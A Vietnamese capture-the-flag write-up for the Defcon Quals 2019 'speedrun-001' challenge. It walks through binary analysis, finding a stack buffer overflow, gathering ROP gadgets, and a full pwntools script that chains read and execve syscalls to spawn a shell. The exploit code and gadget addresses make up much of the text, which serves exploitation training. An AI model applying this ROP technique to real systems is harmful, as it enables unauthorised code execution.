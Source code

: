 # Defcon Quals 2019 Speedrun1

Dùng file và checksec kiểm tra:

```
$	file speedrun-001
speedrun-001: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=e9266027a3231c31606a432ec4eb461073e1ffa9, stripped

$	checksec speedrun-001 
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

File 64bits, liên kết tĩnh và quan trọng là stripped, điều này khiến chúng ta không thể debug 1 cách bình thường trong gdb  
NX được bật -> không thể dùng ret2shellcode  
Pie tắt  
Chạy thử:

```
$	./speedrun-001
Hello brave new challenger
Any last words?
abc
This will be the last thing that you say: abc

Alas, you had no luck today.
```

Mở ghidra, lần theo defined string "Any last words?" tìm thấy 1 hàm:

```
void FUN_00400b60(void)

{
  undefined local_408 [1024];
  
  FUN_00410390("Any last words?");
  FUN_004498a0(0,local_408,2000);
  FUN_0040f710("This will be the last thing that you say: %s\n",local_408);
  return;
}
```

Dựa theo lần chạy thử biết hàm FUN_004498a0 dùng để nhận input, đoán 2000 là số ký tự có thể nhận. Nếu dự đoán này đúng, chúng ta có lỗi buffer overflow  
Xem hàm FUN_004498a0:

```
undefined8 FUN_004498a0(undefined8 param_1,undefined8 param_2,undefined8 param_3)

{
  undefined4 uVar1;
  
  if (DAT_006bc80c == 0) {
    syscall();
    return 0;
  }
  uVar1 = FUN_0044be40();
  syscall();
  FUN_0044bea0(uVar1,param_2,param_3);
  return 0;
}
```

Để ý hàm syscall, nhìn sang mã asm:

```
xor eax, eax
syscall
```

Theo linux syscall reference, rax bằng 0 tương đương lệnh read, đây là cách chương trình nhận input  
Ý tưởng khai thác: sử dụng kỹ thuật ROPchain lấy shell  
Tìm 1 chỗ lưu chuỗi "/bin/sh/0":

```
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000000000400000 0x00000000004b6000 0x0000000000000000 r-x /home/kali/Documents/ctf_prac/pwn/speedrun-001                                                       
0x00000000006b6000 0x00000000006bc000 0x00000000000b6000 rw- /home/kali/Documents/ctf_prac/pwn/speedrun-001
0x00000000006bc000 0x00000000006bd000 0x0000000000000000 rw- [heap]
0x00000000006bd000 0x00000000006e0000 0x0000000000000000 rw- [heap]
0x00007ffff7ff9000 0x00007ffff7ffd000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffd000 0x00007ffff7fff000 0x0000000000000000 r-x [vdso]
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]

x/10xg 0x00000000006b6000
0x6b6000:       0x0000000000000000      0x0000000000000000
0x6b6010:       0x0000000000000000      0x0000000000000000
0x6b6020:       0x0000000000000000      0x0000000000000000
0x6b6030:       0x0000000000000000      0x0000000000000000
0x6b6040:       0x0000000000000000      0x0000000000000000
```

Vùng nhớ từ 0x6b6000 tới 0x6bc000 đủ tốt để ghi do ta có quyền write, đồng thời PIE không được bật và không có dữ liệu được chứa trong đó  
Tìm cách để ghi: có thể sử dụng cách mà chương trình đã dùng để nhận input

```
sys_read:
rax: 0x00 : mã lệnh sys_read
rdi: 0 : file description
rsi: 0x6b6000 : char *buf
rdx: 8 : "/bin/sh" size
```

Sử dụng ROPgadget tìm các gadget ta cần:
```
$	ROPgadget --binary speedrun-001 | grep "pop rax ; ret"
0x0000000000415662 : add ch, al ; pop rax ; ret
0x0000000000415661 : cli ; add ch, al ; pop rax ; ret
0x00000000004a9321 : in al, 0x4c ; pop rax ; retf
0x0000000000415664 : pop rax ; ret
0x000000000048cccb : pop rax ; ret 0x22
0x00000000004a9323 : pop rax ; retf
0x00000000004758a3 : ror byte ptr [rax - 0x7d], 0xc4 ; pop rax ; ret
$	ROPgadget --binary speedrun-001 | grep "pop rdi ; ret"
0x0000000000423788 : add byte ptr [rax - 0x77], cl ; fsubp st(0) ; pop rdi ; ret
0x000000000042378b : fsubp st(0) ; pop rdi ; ret
0x0000000000400686 : pop rdi ; ret
$	ROPgadget --binary speedrun-001 | grep "pop rsi ; ret"
0x000000000046759d : add byte ptr [rbp + rcx*4 + 0x35], cl ; pop rsi ; ret
0x000000000048ac68 : cmp byte ptr [rbx + 0x41], bl ; pop rsi ; ret
0x000000000044be39 : pop rdx ; pop rsi ; ret
0x00000000004101f3 : pop rsi ; ret
$	ROPgadget --binary speedrun-001 | grep "pop rdx ; ret"
0x00000000004a8881 : js 0x4a88fe ; pop rdx ; retf
0x000000000044be16 : pop rdx ; ret
0x000000000045fe71 : pop rdx ; retf
```

Với lệnh syscall, ta sẽ dùng công cụ ropper do ROPgadget không hỗ trợ

```
$	ropper --file speedrun-001 | grep "syscall"      
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
...
0x0000000000474e65: syscall; ret;
...
```

Vậy chúng ta lấy được 5 địa chỉ lệnh 0x415664, 0x400686, 0x4101f3, 0x44be16 và 0x474e65  
Sau khi ghi được chuỗi "/bin/sh", thực thi execve("/bin/sh"):

```
execve:
rax: 0x3b : mã lệnh execve
rdi: 0x6b6000 : char *filename
rsi: 0  
rdx: 0 
``` 

Ý tưởng đã có, giờ viết code khai thác:

```
#!/usr/bin/python3

from pwn import *

exe = ELF("./speedrun-001", checksec = False)

con = process("./speedrun-001")
#gdb.attach(con, gdbscript = 'b *0x400bad')

pop_rax = 0x0000000000415664
pop_rdi = 0x0000000000400686
pop_rsi = 0x00000000004101f3
pop_rdx = 0x000000000044be16
rw_section = 0x00000000006b6000
syscall = 0x474e65

#pop rax, 0x00
#pop rdi, 0
#pop rsi, 0x6b6000
#pop rdx, 8
#syscall
payload = b'A'*1032 + p64(pop_rax) + p64(0) + p64(pop_rdi) + p64(0) + p64(pop_rsi) + p64(rw_section) + p64(pop_rdx) + p64(8) + p64(syscall)

#pop rax, 0x3b
#pop rdi, 0x6b6000
#pop rsi, 0
#pop rdx, 0
#syscall
payload += p64(pop_rax) +p64(0x3b) + p64(pop_rdi) + p64(rw_section) + p64(pop_rsi) +p64(0) + p64(pop_rdx) + p64(0) + p64(syscall)

# Không dùng sendlineafter vì sẽ bị dính "\n" vào chuỗi "/bin/sh" 
con.sendafter(b"words?\n",payload)
con.sendlineafter(b"AAAdVA\n",b"/bin/sh\0")

con.interactive()
```

Chạy code khai thác và lấy được shell:

```
$	./demo.py      
[+] Starting local process './speedrun-001': pid 24090
[*] Switching to interactive mode
$ ls
core  demo.py  exp.py  flag.txt  pwn_wu  speedrun-001  vuln  vuln.c
```
